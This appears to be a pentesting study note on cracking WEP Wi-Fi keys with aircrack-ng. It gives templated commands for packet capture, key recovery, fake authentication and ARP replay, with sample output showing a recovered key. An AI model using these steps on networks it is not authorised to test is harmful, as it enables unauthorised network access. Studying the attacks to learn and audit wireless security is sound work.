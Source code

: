 # Gaining access WEP

- we need a large amount of packets in order to have enough IVs (vector keys). We can do this by using airodump-ng command on the target network and write results to file
```
$ airodump-ng --bssid <target-network-bssid> --channel <target-network-channel> --write <filename> <wirless-adapter>
```

- use the capture file to crack key
```
$ aircrack-ng <filename.cap>
```
at the end of this command, if success, you get this message:
KEY FOUND! [41:73:32:33:70] (ASCII: As23p)

you can use the ascii key to connect to the network but you don't always get this key but you always get the key in square brackets, you can connect to the network by using this key instead without ':' symbols (ex. 4173323370)

## Crack WEP if network is not busy (it does not generate enough IVs)

- listen the target network as before
```
$ airodump-ng --bssid <target-bssid> --channel <channel> --write <filename> <wirless-adapter>
```

- assosiate with the target network (fakeauth attack)
```
$ aireplay-ng --fakeauth 0 -a <target-bssid> -h <wireless-adapter-mac-addr> <wirless-adapter>
```

- force IVs generation (ARP replay attack)
```
$ aireplay-ng --arpreplay -b <target-bssid> -h <wireless-adapter-mac-addr> <wirless-adapter>
```

- use the capture file to crack key as before
```
$ aircrack-ng <filename.cap>
```
